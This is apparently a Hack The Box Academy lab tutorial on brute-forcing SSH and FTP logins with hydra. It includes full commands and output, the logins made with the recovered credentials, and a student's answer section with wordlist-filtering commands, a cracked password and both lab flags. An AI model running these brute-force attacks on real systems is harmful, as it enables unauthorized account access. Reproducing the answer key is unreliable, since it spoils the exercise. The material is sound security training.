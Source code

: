 # Service Authentication Brute Forcing

### SSH Attack

The command used to attack a login service is fairly straightforward. We simply have to provide the username/password wordlists, and add `service://SERVER_IP:PORT` at the end. As usual, we will add the `-u -f` flags. Finally, when we run the command for the first time, `hydra` will suggest that we add the `-t 4` flag for a max number of parallel attempts, as many `SSH` limit the number of parallel connections and drop other connections, resulting in many of our attempts being dropped. Our final command should be as follows:

Service Authentication Brute Forcing

```shell-session
AIceBear@htb[/htb]$ hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 157116 login tries (l:12/p:13093), ~39279 tries per task
[DATA] attacking ssh://178.35.49.134:22/
[STATUS] 77.00 tries/min, 77 tries in 00:01h, 157039 to do in 33:60h, 4 active
[PORT][ssh] host: 178.35.49.134   login: b.gates   password: ...SNIP...
[STATUS] attack finished for 178.35.49.134 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)
```

We see that it takes some time to finish, but eventually, we get a working pair, and we identify the user `b.gates`. Now, we can attempt ssh-ing in using the credentials we got:

Service Authentication Brute Forcing

```shell-session
AIceBear@htb[/htb]$ ssh b.gates@178.35.49.134 -p 22

b.gates@SERVER_IP's password: ********

b.gates@bruteforcing:~$ whoami
b.gates
```

As we can see, we can `SSH` in, and get a shell on the server.

***

### FTP Brute Forcing

Once we are in, we can check out what other users are on the system:

Service Authentication Brute Forcing

```shell-session
b.gates@bruteforcing:~$ ls /home

b.gates  m.gates
```

We notice another user, `m.gates`. We also notice in our local `recon` that port `21` is open locally, indicating that an `FTP` must be available:

Service Authentication Brute Forcing

```shell-session
b.gates@bruteforcing:~$ netstat -antp | grep -i list

(No info could be read for "-p": geteuid()=1000 but you should be root.)
tcp        0      0 127.0.0.1:21            0.0.0.0:*               LISTEN      - 
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -                  
```

Next, we can try brute forcing the `FTP` login for the `m.gates` user now.

Note 1: Sometimes administrators test their security measures and policies with different tools. In this case, the administrator of this web server kept "hydra" installed. We can benefit from it and use it against the local system by attacking the FTP service locally or remotely.

Note 2: "rockyou-10.txt" can be found in "/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou-10.txt", which contains 92 passwords in total. This is a shorter version of "rockyou.txt" which includes 14,344,391 passwords.

So, similarly to how we attacked the `SSH` service, we can perform a similar attack on `FTP`:

Service Authentication Brute Forcing

```shell-session
b.gates@bruteforcing:~$ hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 16 tasks per 1 server, overall 16 tasks, 92 login tries (l:1/p:92), ~6 tries per task
[DATA] attacking ftp://127.0.0.1:21/

[21][ftp] host: 127.0.0.1   login: m.gates   password: <...SNIP...>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)
```

We can now attempt to `FTP` as that user, or even switch to that user. Let us try both:

Service Authentication Brute Forcing

```shell-session
b.gates@bruteforcing:~$ ftp 127.0.0.1

Connected to 127.0.0.1.
220 (vsFTPd 3.0.3)
Name (127.0.0.1:b.gates): m.gates

331 Please specify the password.
Password: 

230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir

200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-------    1 1001     1001           33 Sep 11 00:06 flag.txt
226 Directory send OK.
```

And to switch to that user:

Service Authentication Brute Forcing

```shell-session
b.gates@bruteforcing:~$ su - m.gates

Password: *********
m.gates@bruteforcing:~$
```

Service Authentication Brute Forcing

```shell-session
m.gates@bruteforcing:~$ whoami

m.gates
```

**Questions**

Using what you learned in this section, try to brute force the SSH login of the user "b.gates" in the target server shown above. Then try to SSH into the server. You should find a flag in the home dir. What is the content of the flag?

<pre class="language-bash"><code class="lang-bash">cupp -i
#add this commands to wordlist
sed -ri '/^.{,7}$/d' william.txt            # remove shorter than 8
<strong>sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt # remove no special chars
</strong>sed -ri '/[0-9]+/!d' william.txt            # remove no numbers
#[37991][ssh] host: 94.237.63.93   login: b.gates   password: 4dn1l3M!$
HTB{n3v3r_u53_c0mm0n_p455w0rd5!}
</code></pre>

Once you ssh in, try brute forcing the FTP login for the other user. You should find another flag in their home directory. What is the flag?

```bash
ssh b.gates@94.237.63.93 -p 37991
ls /home
netstat -antp | grep -i list
hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.
#[21][ftp] host: 127.0.0.1   login: m.gates   password: computer
ftp 127.0.0.1
dir
get flag.txt
exit
cat flag.txt
HTB{1_4m_@_bru73_f0rc1n6_m4573r}
```

